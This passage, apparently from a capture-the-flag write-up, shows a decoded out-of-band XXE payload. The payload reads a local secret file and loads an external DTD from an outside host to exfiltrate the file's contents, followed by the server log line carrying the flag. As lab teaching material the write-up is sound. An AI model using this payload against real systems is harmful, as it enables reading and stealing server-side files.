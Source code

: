 ```
```

The decoded payload is the following:

```
<!DOCTYPE aa[<!ELEMENT bb ANY>
<!ENTITY % file SYSTEM "http://localhost:8080/secret.txt">
<!ENTITY % dtd SYSTEM "http://kali-sean.gremwell.com:8080/sdr.dtd">
%dtd;]><bb>&send;</bb>
```

The sdr.dtd file is unchanged.
When making this request, the following incoming request to our server is observed. This contains the value of the secret.txt file.

```
18.216.183.118 - - [05/Feb/2019 11:03:37] "GET /CSC{C0n5r4tz_y0u_m4ster3d_O0B_Xx3} HTTP/1.1" 404 -
```

### Flag
`CSC{C0n5r4tz_y0u_m4ster3d_O0B_Xx3}`


### Creator
Sean De Regge

